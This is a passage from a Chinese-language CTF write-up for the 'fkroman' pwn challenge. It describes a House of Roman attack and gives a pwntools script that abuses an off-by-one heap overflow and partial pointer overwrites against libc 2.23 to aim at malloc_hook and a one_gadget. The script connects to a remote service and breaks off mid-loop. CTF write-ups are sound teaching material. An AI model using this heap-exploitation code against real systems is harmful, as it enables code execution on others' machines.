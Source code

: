 [toc]

# Writeup for Gongce CTF by X1ct34m

## Pwn
### fkroman
House of roman的例题，但是sleep(5)加上house of roman的12bit的。。。不是欧洲人打不了这种打法orz。
用的stdout attack leak后leak出libc后直接改malloc_hook到one_gadget。

```python=
from pwn import *
onegadget=[0x45216,0x4526a,0xf02a4,0xf1147]
while 1:
    #sh=process("fkroman/fkroman")
    libc=ELF("fkroman/libc-2.23.so")
    sh=remote("121.40.246.48",9999)
    def create(Size,Index):
        sh.recvuntil("choice: ")
        sh.sendline("1")
        sh.recvuntil("Index: ")
        sh.sendline(str(Index))
        sh.recvuntil("Size: ")
        sh.sendline(str(int(Size)))
    def free(Index):
        sh.recvuntil("choice: ")
        sh.sendline("3")
        sh.recvuntil("Index: ")
        sh.sendline(str(Index))
    def edit(Index,Content):
        sh.recvuntil("choice")
        sh.sendline("4")
        sh.recvuntil("Index: ")
        sh.sendline(str(Index))
        sh.recvuntil("Size: ")
        sh.sendline(str(int(len(Content))))
        sh.recvuntil("Content: ")
        sh.send(Content)
    sleep(5)
    create(0x18,0)
    create(0xc8,1)
    create(0x65,2)
    edit(1,'a'*0x68+p64(0x61))
    free(1)
    create(0xc8,1)
    
    create(0x65,3)  
    create(0x65,15)
    create(0x65,18)
    over = "A"*0x18  # off by one
    over += "\x71"  # set chunk  1's size --> 0x71
    edit(0,over)
    free(2)
    free(3)
    heap_po = "\x20"
    edit(3,heap_po)
    malloc_hook_nearly = "\xdd\x25"
    edit(1,malloc_hook_nearly)
    create(0x65,0)
    create(0x65,0)
    create(0x65,7)
    try:
        sh.recv(4,timeout=6)
```